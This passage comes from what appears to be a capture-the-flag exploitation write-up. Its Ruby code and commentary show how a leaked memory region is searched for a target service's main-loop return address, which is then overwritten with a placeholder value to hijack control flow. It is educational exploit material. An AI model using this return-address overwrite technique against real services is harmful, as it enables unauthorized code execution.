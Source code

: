 ```
<span class="lnr">37 </span>  <span class="Statement">end</span>
<span class="lnr">38 </span>
<span class="lnr">39 </span>  <span class="Comment"># D'awww :(</span>
<span class="lnr">40 </span>  puts(<span class="Special">"</span><span class="Constant">Couldn't find the return address :(</span><span class="Special">"</span>)
<span class="lnr">41 </span>  <span class="Statement">exit</span>
<span class="lnr">42 </span><span class="rubyDefine">end</span>
```

It uses the *exact same technique* as we initially used to read that static string from memory, except instead of reading 20 or 30 bytes, it reads 0x7fffff—that's about 8 megabytes.

Somewhere in that chunk of memory will be the actual stack. And somewhere on the stack will be the return address of the main looping function. And, fortunately, because I can capture the base address of the binary (outlined last section), I know exactly what that address will be!

To put it another way: I know that the main loop returns to an address when it's done. I can calculate that address, and therefore I know the absolute return address of the main loop. If I know it, it means I can find it on the stack. And if I can find it on the stack, it means I can change it.

Here's some code that finds the address and changes it:

```

<span class="lnr"> 1 </span><span class="Comment"># Set up the connection</span>
<span class="lnr"> 2 </span>s = <span class="Type">TCPSocket</span>.new(<span class="Special">"</span><span class="Constant">192.168.1.119</span><span class="Special">"</span>, <span class="Constant">8585</span>)
<span class="lnr"> 3 </span>receive_code(s, <span class="Constant">0x00001000</span>, <span class="Special">"</span><span class="Constant">init</span><span class="Special">"</span>)
<span class="lnr"> 4 </span>login(s)
<span class="lnr"> 5 </span>
<span class="lnr"> 6 </span><span class="Comment"># Get the base address</span>
<span class="lnr"> 7 </span>base_addr = get_base_address(s)
<span class="lnr"> 8 </span>
<span class="lnr"> 9 </span><span class="Comment"># Get the return address</span>
<span class="lnr">10 </span>return_address = find_return_address(s, base_addr)
<span class="lnr">11 </span>
<span class="lnr">12 </span><span class="Comment"># Do a typical overwrite - overwrite the main loop's return address</span>
<span class="lnr">13 </span><span class="Comment"># with 0x43434343</span>
<span class="lnr">14 </span>store(s, <span class="Type">VARDATA_TYPE_DOUBLE_ARRAY</span>, [<span class="Constant">0x4141414141414141</span>] * <span class="Constant">10</span>)
<span class="lnr">15 </span>store(s, <span class="Type">VARDATA_TYPE_INT_ARRAY</span>, [<span class="Constant">0x42424242</span>])
<span class="lnr">16 </span>edit(s, <span class="Constant">1</span>, <span class="Constant">3</span>, [return_address, <span class="Constant">1</span>].pack(<span class="Special">"</span><span class="Constant">II</span><span class="Special">"</span>))
<span class="lnr">17 </span>edit(s, <span class="Constant">0</span>, <span class="Constant">0</span>, [<span class="Constant">0x43434343</span>].pack(<span class="Special">"</span><span class="Constant">I</span><span class="Special">"</span>))
<span class="lnr">18 </span>
<span class="lnr">19 </span><span class="Comment"># Cause the main loop to return</span>
<span class="lnr">20 </span>quit(s)
```
